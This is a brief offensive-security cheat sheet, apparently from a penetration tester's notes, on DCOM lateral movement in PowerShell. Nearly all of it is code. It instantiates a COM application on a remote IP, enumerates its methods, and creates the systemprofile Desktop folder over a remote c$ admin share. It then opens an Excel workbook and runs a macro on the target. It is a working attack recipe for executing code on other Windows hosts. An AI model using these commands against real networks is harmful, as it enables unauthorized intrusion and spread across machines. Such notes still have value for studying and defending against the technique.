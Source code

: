 ##### DCOM Lateral Movement.

Create COM instance. 
```
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Some.Application", "<ip>"))
```
Once the object has been created, we can enum the methods, i,e Run, FindFile, ect ect
```
$com | Get-Member
```
Need Sys Desktop, Create
```
$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
```
Create workbook object and pop
```
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")$com.Run("mymacro")
$com.Run("mymacro")
```
